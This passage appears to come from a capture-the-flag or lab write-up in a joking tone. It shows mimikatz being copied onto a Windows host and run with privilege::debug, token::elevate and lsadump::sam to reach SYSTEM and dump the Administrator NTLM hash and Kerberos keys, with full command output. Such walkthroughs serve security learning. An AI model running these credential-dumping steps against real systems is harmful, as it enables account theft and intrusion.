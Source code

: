 So we are in this group Mandatory Label\High Mandatory Level

means its our machine now (_insert communism meme here_)

where flags? where Credentials? where juicy files? where everything?

we download a release of mimikatz (ignore the danger warning...we are the Danger)

and copy to /tpm...same stuff

`\\tsclient\share\x64\mimikatz.exe`

Now mimikatz commands in action

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
Token Id : 0
User name :
SID name : NT AUTHORITY\SYSTEM

676 {0;000003e7} 1 D 24847 NT AUTHORITY\SYSTEM S-1-5-18 (04g,21p) Primary
-> Impersonated !

- Process Token : {0;001ba397} 1 F 1995372 GAIA\adm1n S-1-5-21-1966530601-3185510712-10604624-1009 (13g,24p) Primary
- Thread Token : {0;000003e7} 1 D 2039477 NT AUTHORITY\SYSTEM S-1-5-18 (04g,21p) Impersonation (Delegation)
```

Now the precious hashes

```
mimikatz # lsadump::sam
Domain : GAIA
SysKey : 36c8d26ec0df8b23ce63bcefa6e2d821
Local SID : S-1-5-21-1966530601-3185510712-10604624

SAMKey : 6e708461100b4988991ce3b4d8b1784e

RID : 000001f4 (500)
User : Administrator
Hash NTLM: c16444961f67af7eea7e420b65c8c3eb

Supplemental Credentials:

- Primary:NTLM-Strong-NTOWF \*
  Random Value : efd8f5fd23c3b910ef609e3e872276c8

- Primary:Kerberos-Newer-Keys \*
  Default Salt : CHANGE-MY-HOSTNAMEAdministrator
  Default Iterations : 4096
  Credentials
  aes256_hmac (4096) : c3bfc4a1912ab98abb75ad9d11aa511e30673f6c495066a811032df9756b9f3e
  aes128_hmac (4096) : 6fbcc5a35c6507e1dd2c51521557b3b6
  des_cbc_md5 (4096) : 9ba7cdb3972013cd
  OldCredentials
  aes256_hmac (4096) : 9484aadacd6c5994aed633bf92b6b3db31c57c932d2cd84a7fa635a0b3262806
  aes128_hmac (4096) : cdda685dd630dd0796e5ddf38e22dce5
  des_cbc_md5 (4096) : 08340db613fb46b5
  OlderCredentials
  aes256_hmac (4096) : 50141e3b3b449512e393a66c32e7f89a131744eef5d8a3f6a8576919a810cda3
  aes128_hmac (4096) : 0d717b42dbaf77bb7248b4bebf8bb3a6
  des_cbc_md5 (4096) : bc23a20170542f25

- Packages \*
```